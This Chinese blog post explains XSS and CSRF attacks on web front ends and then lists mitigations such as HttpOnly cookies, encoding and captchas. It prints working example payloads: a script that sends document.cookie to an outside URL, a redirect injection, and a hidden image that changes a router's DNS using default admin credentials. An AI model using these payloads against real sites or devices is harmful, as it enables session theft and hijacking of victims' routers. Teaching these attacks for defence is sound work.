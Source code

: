 ```yaml
---
layout: post
title: 前端安全的那些事
category: f2e
---
```


> Ajax的兴起，带了前端技术的飞速发展，安全问题已经悄悄的从服务端转了前端。

常见的攻击手段有：

+ XSS（跨站脚本攻击）
+ CSRF(伪造请求攻击)

##XSS（跨站脚本攻击）##

###往web页面里插入恶意的html代码###

####页面中输入DOM节点####

{% highlight lua %}
&lt;img src="xxx.gif" onload="window.location.href='johnqing.github.io'"&gt;
{% endhighlight %}

####页面中输入js脚本####

{% highlight lua %}
	window.location.href='johnqing.github.io'
{% endhighlight %}

如果用户在，用户信息等form表单中输入

{% highlight lua %}
window.location.href='johnqing.github.io'
{% endhighlight %}

就会造成用户打开该页面就会执行自动跳转

####基于字符集的XSS####

用户在添加表单时，可输入如下代码：

{% highlight lua %}
&lt;p&gt;
{% endhighlight %}

就可能造成页面错乱

###当用户浏览当前页面时，页面中html代码会被执行###

某网站的一个请求地址 和 页面中代码如下：

http://X.com/search.asp?q=ssss

{% highlight lua %}
搜索结果：&lt;?php $_GET('q') ?&gt;
{% endhighlight %}

好了，俺偷偷伪造一个请求发送给该网站

{% highlight lua %}
http://X.com/search.asp?q=&lt;script&gt;window.open("http://johnqing.github.io.cn?cookie="+document.cookie)&lt;/script&gt;
{% endhighlight %}

瞬间，他的cookie信息，都在这了。

###Flash XSS攻击###

当然flash作为web里一直存在的东东，当然也可以攻击。Flash中的getURL()动作，它可以使我们的页面重定向到函数指定的页面。

{% highlight lua %}
getURL('javascript:alert(document.cookie)');
{% endhighlight %}

哈哈 cookie又在我这了。。

###未经验证的跳转造成的跨站###

服务端做302跳转时，跳转的地址来自用户，攻击者 可以输入一个恶意的网址进行跳转来执行脚本。

看了上面的内容，亲们肯定会想到，可以用上面的代码，实现一个钓鱼网站了。（ps：千万别干。。干了也别说我告诉你的。。）

####XSS漏洞修复####

原则：不相信客户输入的数据
注意: 攻击代码不一定在&lt;script&gt;&lt;/script&gt;中

将重要的cookie标记为http only, 这样的话Javascript 的document.cookie语句就不能获取到cookie了.
只允许用户输入我们期望的数据。例如：年龄的textbox中，只允许用户输入数字。 而数字之外的字符都过滤掉。
对数据进行Html Encode 处理
过滤或移除特殊的Html标签， 例如: &lt;script&gt;, &lt;iframe&gt; ,  &lt; for &lt;, &gt; for &gt;, &quot for
过滤JavaScript 事件的标签。例如 "onclick=", "onfocus" 等等。

##CSRF(伪造请求攻击)##

这个例子比较典型了，前几天看到一个同学发了一个他中招的东西，访问一个网站时，它会把你路由器DNS修改为Google 提供的 `8.8.8.8`。
这就是典型的伪造请求攻击。

代码如下：

{% highlight lua %}
&lt;img style="display: none; " src="http://admin:admin@192.168.1.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&amp;ip1=192.168.1.100&amp;ip2=192.168.1.199&amp;Lease=120&amp;gateway=0.0.0.0&amp;domain=&amp;dnsserver=&amp;dnsserver=8.8.8.8&amp;dnsserver2=8.8.8.8&amp;Save=%B1%A3+%B4%E6"&gt;
{% endhighlight %}

可以想象一下，假如你访问的是你的银行账户，而且丫也支持 `GET` 请求，很容易就会被攻击者利用这种漏洞，从账户中把钱拿出来

还有请勿调用第三的文件。

因为如果该文件被加入了攻击性脚本，你整个网站基本都会沦陷。

####CSRF的防御####

1. 限制验证cookie的到期时间。cookie的合法时间越短，黑客利用你的Web应用程序的机会就越小。
2. 验证码。每次的用户提交都需要用户在表单中填写一个图片上的随机字符串。这个方案可以完全解决CSRF，听闻是验证码图片的使用涉及了一个被称为MHTML的Bug，可能在某些版本的微软IE中受影响。
3. 用户在进行重要业务前输入口令。这可以防止黑客发动CSRF攻击（只要浏览器中没有包含口令），因为这种重要信息无法预测或轻易获得。
4. 使用定制的HTTP头。验证是否符合当前请求头。
5. 只允许GET请求检索数据，但是不允许它修改服务器上的任何数据。
